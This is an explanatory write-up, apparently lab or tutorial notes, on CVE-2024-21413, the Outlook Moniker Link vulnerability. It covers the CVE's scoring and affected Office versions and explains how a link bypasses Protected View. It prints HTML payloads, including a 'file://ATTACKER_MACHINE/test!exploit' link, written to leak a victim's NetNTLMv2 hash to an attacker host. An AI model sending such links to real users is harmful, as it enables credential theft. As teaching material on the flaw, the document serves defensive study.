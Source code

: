 # Introduction

On February 13th, 2024, Microsoft announced a Microsoft Outlook <span style="color: inherit;">RCE</span> & credential leak vulnerability with the assigned <span style="color: inherit;">CVE</span> of [<span style="color: inherit;">CVE</span>\-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li of Check Point Research is credited with [discovering the vulnerability](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/).

The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's <span style="color: inherit;">NTLM</span> credentials to the attacker once the hyperlink is clicked.

Details relating to the scoring of the vulnerability have been provided in the table below:

| **<span style="color: inherit;">CVSS</span>** | **Description** |
| --- | --- |
| Publish date | February 13th, 2024 |
| MS article | [https://msrc.microsoft.com/update-guide/en-US/vulnerability/<span style="color: inherit;">CVE</span>-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |

The vulnerability is known to affect the following Office releases:

| **Release** | **Version** |
| --- | --- |
| Microsoft Office LTSC 2021 | affected from 19.0.0 |
| Microsoft 365 Apps for Enterprise | affected from 16.0.1 |
| Microsoft Office 2019 | affected from 16.0.1 |
| Microsoft Office 2016 | affected from 16.0.0 before 16.0.5435.1001 |

&nbsp;

## <span style="color: #f9f9fb;">Moniker Link (CVE-2024-21413)</span>

Outlook can render emails as HTML. You may notice this being used by your favourite newsletters. Additionally, Outlook can parse hyperlinks such as <span style="color: inherit;">HTTP</span> and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers). Normally, Outlook will prompt a security warning when external applications are triggered.

<img src="../../_resources/HBNP4GTD5Y-image1.webp" alt="HBNP4GTD5Y-image1.webp" class="jop-noMdConv" width="377" height="239" style="display: block; margin: 0 auto;">

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organisation).

By using the `file://` Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (`<a href="file://ATTACKER_IP/test>Click me</a>`). The <span style="color: inherit;">SMB</span> protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the `!` special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: `<a href="file://ATTACKER_IP/test!exploit>Click me</a>`.

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (<span style="color: inherit;">RCE</span>) is possible because Moniker Links uses the Component Object Model (COM) on Windows. However, there is no publicly released proof of concept for achieving <span style="color: inherit;">RCE</span> via this specific <span style="color: inherit;">CVE</span>.
